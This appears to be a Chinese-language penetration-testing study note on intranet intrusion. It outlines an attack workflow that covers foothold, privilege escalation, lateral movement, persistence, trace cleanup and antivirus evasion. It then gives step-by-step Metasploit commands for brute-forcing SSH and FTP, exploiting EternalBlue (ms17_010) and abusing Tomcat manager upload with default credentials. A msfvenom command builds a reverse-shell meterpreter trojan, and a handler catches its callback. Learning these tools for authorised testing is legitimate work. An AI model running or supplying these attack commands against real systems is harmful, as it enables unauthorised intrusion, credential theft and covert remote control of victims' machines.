


## 0x01 内网渗透流程

- 一般都是针对Windows系统进行内网渗透

1. 外部打点（外部攻击，如网站渗透getshell）
2. 内网信息收集（系统信息，网络信息，密码，防火墙信息等）
3. 提权
4. 横向渗透（同网段渗透）
5. 纵向渗透（跨网段渗透，如同一主机同时有两个网络环境的ip）
6. 权限维持
7. 痕迹清理

- 免杀

- 域渗透

  

## 0x02 外部打点

### 一、漏洞挖掘

1. 历史漏洞（RCE）
2. 0day
3. 手动挖掘owasp top 10

### 二、漏洞利用

1. 上传webshell

2. 反弹shell

3. 渗透测试框架 远控后门（Metasploit、CobaltStrike）

   

### 三、Metasploit

#### 1. Metasploit概述

- metasploit是一个集成的渗透测试框架

- 官网：https://metasploit.com

- github项目地址：https://github.com/rapid7/metasploit-framework

- 官方文档：https://docs.rapid7.com/metasploit/

- 官方视频：https://www.youtube.com/c/MetasploitR7

- 安装：

  wget https://downloads.metasploit.com/data/releases/metasploit-latest-linux-x64-installer.run
  chmod +x metasploit-latest-linux-x64-installer.run
  ./metasploit-latest-linux-x64-installer.run

#### 2. 基础构成

- modules
  - auxiliary:辅助模块,辅助渗透（端口扫描、登录密码爆破、漏洞验证等)
  - exploits:漏洞利用模块，包含主流的漏洞利用脚本，通常是对某些可能存在漏洞的目标进行漏洞利用。命名规则:操作系统/各种应用协议分类
  - payloads:攻击载荷，主要是攻击成功后在目标机器执行的代码，比如反弹shell的代码
  - post:后渗透阶段模块，漏洞利用成功获得meterpreter之后，向目标发送的一些功能性指令，如:提权等
  - encoders:编码器模块，主要包含各种编码工具，对payload进行编码加密，以便绕过入侵检测和过滤系统
  - evasion:躲避模块,用来生成免杀payload
  - nops:由于IDS/IPs会检查数据包中不规则的数据，在某些情况下，比如针对溢出攻击，某些特殊滑行字符串(NOPS x90x90...)则会因为被拦截而导致攻击失效。

- db

#### 3. 基础使用

1. msfdb init（初始化数据库，开启5432端口）
2. msfconsole（进入msf命令行接口）

### 4. 使用流程

1. 使用模块

   - 可以使用search查找相关模块

   - use 模块序号/模块全称
    

2. 配置模块

   - show options或options查看配置

   - required是yes代表是必填项，若为空则需要手动配置

   - 选择相应配置项set配置参数
     

3. 运行模块
   - run或exploit

### 5. 使用示例

- 爆破ssh服务

  1. search ssh scanner查找相关模块

     

  2. use使用模块

     use auxiliary/scanner/ssh/ssh_login

  3. option查看配置选项

     

  4. set配置参数

  5. run运行模块

- 爆破ftp
  1. search ftp auxilary scanner

- 永恒之蓝

  smb服务445端口，ms17_010

  1）使用模块

  - search ms_17_010
  - use 0

  2）配置模块

  - module options：
    - rhost 目标地址
  - payload options：
    - meterpreter  msf后渗透模块
    - windows/x64/meterpreter/reverse_tcp 系统版本/架构/协作的操作/操作方法
    - lhost 监听机地址
    - lport 监听端口
  - exploit target ：自动

  3）使用模块

  - run/exploit

- tomcat后台部署漏洞

  - search tomcat
  - use exploit/multi/http/tomcat_mgr_upload
  - show options
  - set rhost
  - set rport
  - set httpusername tomcat
  - set httppassword tomcat
  - set lhost
  - set lport
  - run

### 6. msfconsole 和 meterpreter相关命令

   - exit
   - background 当前会话放到后台
   - sessions 列出后台会话
   - sessions [ID] 进入会话
   - \>meterpreter shell 获取目标命令行
   - \>meterpreter getuid 获取当前用户信息
   - \>cmd chcp 65001 修改编码为utf-8
   - \>msf6 jobs 列出所有job
   - \>msf6 job -K 关闭所有
   - \>msf6 job -k  ID 关闭指定job

### 7. msfvenom 生成远控木马

1. 生成后门

​	msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.136 lport=12345 -f exe -o 123.exe

2. 攻击机开启监听

​	正常开启：

1. msfconsole
2. use exploit/multi/handler
3. set payload windows/x64/meterpreter/reverse_tcp
4. set lhost xxx.xxx.xxx.xxx
5. set lport xxxx
6. run

​	快捷开启：hander -p windows/x64/meterpreter/reverse_tcp -H 192.168.10.77 -P 12345

3. 靶机运行后门，上线meterpreter

